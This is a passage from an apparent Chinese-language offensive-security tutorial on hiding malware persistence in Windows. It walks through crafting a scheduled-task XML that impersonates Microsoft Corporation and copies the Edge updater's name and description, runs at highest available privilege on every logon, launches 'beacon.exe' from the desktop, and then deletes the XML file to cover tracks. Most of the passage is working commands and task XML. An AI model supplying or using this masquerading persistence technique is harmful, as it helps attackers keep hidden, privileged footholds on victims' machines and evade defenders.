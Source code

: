 ```xml
        </Exec>
    </Actions>
</Task>
```

删除了任务创建时间 `<Date>`，与大多数任务保持一致。

修改创建者 `<Author>` 伪装成 Microsoft Corporation。

新增任务描述 `<Description>`：

```undefined
使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。
```

任务名称 `<URI>` 更换为 MicrosoftEdgeUpdateTaskMachineRelease。

将 `<UserId>` 做修改。使用当前管理员用户 SID 运行任务计划。

```plaintext
PS C:\Users\123> whoami /USER /FO LIST

用户信息
----------------

用户名: desktop-akrqv41\123
SID:    S-1-5-21-2973696153-3313763339-1684698060-1001
```

`<LogonType>` 设置为当前登录类型为 Token，暂时没搞清楚原理，就保持默认。

由于没有用 SID 为了避免运行后完整性级别是中等，这里主动设置完整性级别 `<RunLevel>` HighestAvailable，提升为 Hgih 完整性级别。

`<DisallowStartIfOnBatteries>` 和 `<StopIfGoingOnBatteries>` 改为 False，避免使用在笔记本电源时不执行任务。其子标签 `<Duration>` 和 `<WaitTimeout>` 也删除了，不删除会报错，不知道原因在哪。

修改完毕，powershell 输出重定向到文件。

```plaintext
echo '<?xml version="1.0" encoding="UTF-16"?><Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><RegistrationInfo><Author>Microsoft Corporation</Author><Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description><URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI></RegistrationInfo><Principals><Principal id="Author"><UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId><LogonType>InteractiveToken</LogonType><RunLevel>HighestAvailable</RunLevel></Principal></Principals><Settings><DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries><StopIfGoingOnBatteries>false</StopIfGoingOnBatteries><MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy><IdleSettings><StopOnIdleEnd>true</StopOnIdleEnd><RestartOnIdle>false</RestartOnIdle></IdleSettings></Settings><Triggers><LogonTrigger><StartBoundary>2023-04-26T16:56:00</StartBoundary></LogonTrigger></Triggers><Actions Context="Author"><Exec><Command>C:\Users\123\Desktop\beacon.exe</Command></Exec></Actions></Task>' > task.xml
```

创建时使用 XML 创建任务，取名为 MicrosoftEdgeUpdateTaskMachineRelease。

```plaintext
PS C:\Users\123\desktop> SCHTASKS /Create /TN MicrosoftEdgeUpdateTaskMachineRelease /XML task.xml
成功: 成功创建计划任务 "MicrosoftEdgeUpdateTaskMachineRelease"。
PS C:\Users\123\desktop> rm task.xml
```
